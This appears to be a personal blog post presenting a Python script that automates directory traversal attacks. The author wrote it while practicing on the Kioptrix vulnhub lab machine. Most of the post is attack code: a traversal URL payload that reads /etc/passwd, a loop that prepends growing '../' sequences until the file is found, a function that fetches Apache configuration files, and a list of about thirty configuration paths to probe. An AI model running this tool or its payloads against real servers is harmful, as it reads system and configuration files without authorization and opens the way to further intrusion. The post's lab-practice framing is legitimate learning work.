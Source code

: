 ```yaml
---
layout: post
author: Donald Murchison
category: pr0j3cts
title: "Directory Traversal Script"
---
```


{% highlight bash %}
http://vulnerable-site/index.php?path=../../../etc/passwd
{% endhighlight %}
<br>
This project is a simple python script I wrote to help automate directory traversal attacks. I started this project while I was practicing offensive techniques with the Kioptrix: 2014 (#5) vulnhub machine.

I will be posting a full write up of [Kioptrix: 2014 (#5)](#) in the near future.

The full directory traversal script is [here]({{ site.url }}/assets/traversal/directorytraversal.txt)

Take a look at the full script to uderstand what options can be specified at the command line. I have tried to write this in a way so that I can continue to add new features in the future. For now I will only go over the use for and apache server on a linux host.

To run the script I will specify the url (-u) and server (-s).
{% highlight bash %}
donald@comp:~$ python directorytraversal.py -u "http://vulnerable-site/index.php?path={}" -s apache
{% endhighlight %}

Two things to note about the -u option, are that the url should be in quotations and the parameter in the url which is vulnerable to directory traversal should be specified by {}.

I chose to specify the url this way so that I could easily use format function to place the series of "../" anywhere in the url.

After setting the options correctly, I needed to automate finding the root directory by trying access the /etc/passwd file. 

I searched for the passwd file because Kioptrix is a linux machine which will always have /etc/passwd.

{% highlight python %}

#Try up to 30
	for i in range(30):
		tmp = ""
		tmp = urllib.quote_plus(("..{}".format(slash))*(i+1))
		tmp += "{}"
		
		traversal = url.format(tmp)
		print traversal.format(localfile)
		r = requests.get(traversal.format(localfile))

		#print r.content
		if r.status_code == 200 and user in r.content:
		#	print "Done"
			with open(outpath+"dt-file.html",'w') as f:
				f.write(r.content)
			findConf(traversal,server,outpath)	
			break

{% endhighlight %} 

Above, is the main snippet of code to accomplish finding the root directory. Essentially, it is just a loop which will make a get request to the url with an increasing amount of "../" prepended to "/etc/passwd".

After making the request, it will check for a 200 status code and for "root", user variable, in the content. I added the check for user in content because Kioptrix was returning a 200 status code in every response. 

You might notice that the treversal variable was written in a weird way and contains a {} in the string. An example instance of traversal is below (minus the url encoding):
{% highlight bash %}
http://vulnerable-site/index.php?path=../../../{}
{% endhighlight %}
I then format the string with etc/passwd while passing it to the GET request. This way I have the correct traversal path for the root directory stored in a variable. 

The next thing I wanted to automate was finding the apache config file. The config file can have many different names or paths and I wanted to easily be able to test for each one.

I wrote a method which makes a get request for each entry in a list of possible config files. The naming convention for the list is ./{server}conflist

{% highlight python %}
def findConf(traversal,server,outpath):
	print "Trying to find config file"
	
	with open("./{}conflist".format(server)) as infile:
			for line in infile:
				r = requests.get(traversal.format(line.strip()))
				#print traversal.format(line.strip())
				if r.status_code == 200 and r.content != "":
					print "Found config {}".format(line)
					break

	#Use .html so I don't have to deal with formatting 
	with open(outpath+"config.html", 'w') as f:
		f.write(traversal.format(line.strip())+"\n\n")
		f.write(urllib.unquote(r.content))
{% endhighlight %}

Since I had the root directory path stored in traversal, I could pass the variable to my function and format the string with the different config files.

Below is my current list of paths to test for apache (linux):
{% highlight python %}
etc/httpd/httpd.conf
etc/httpd/apache2.conf
etc/httpd/conf/httpd.conf
etc/httpd/conf/apache2.conf
etc/conf/httpd.conf
etc/conf/apache2.conf
etc/apache2/httpd.conf
etc/apache2/apache2.conf
etc/apache22/httpd.conf
etc/apache22/apache2.conf
usr/local/etc/httpd/httpd.conf
usr/local/etc/httpd/apache2.conf
usr/local/etc/httpd/conf/httpd.conf
usr/local/etc/httpd/conf/apache2.conf
usr/local/etc/conf/httpd.conf
usr/local/etc/conf/apache2.conf
usr/local/etc/apache2/httpd.conf
usr/local/etc/apache2/apache2.conf
usr/local/etc/apache22/httpd.conf
usr/local/etc/apach22/httpd.conf
opt/etc/httpd/httpd.conf
opt/etc/httpd/apache2.conf
opt/etc/httpd/conf/httpd.conf
opt/etc/httpd/conf/apache2.conf
opt/etc/conf/httpd.conf
opt/etc/conf/apache2.conf
opt/etc/apache2/httpd.conf
opt/etc/apache2/apache2.conf
opt/etc/apache22/httpd.conf
opt/etc/apache22/apache2.conf
{% endhighlight %} 

Please contact me if you have suggestions for the apache config list or lists for other servers.

As I continue to learn, I will update this tool to be able to automate exploitation of different linux and windows servers.

This article will continue to be updated.

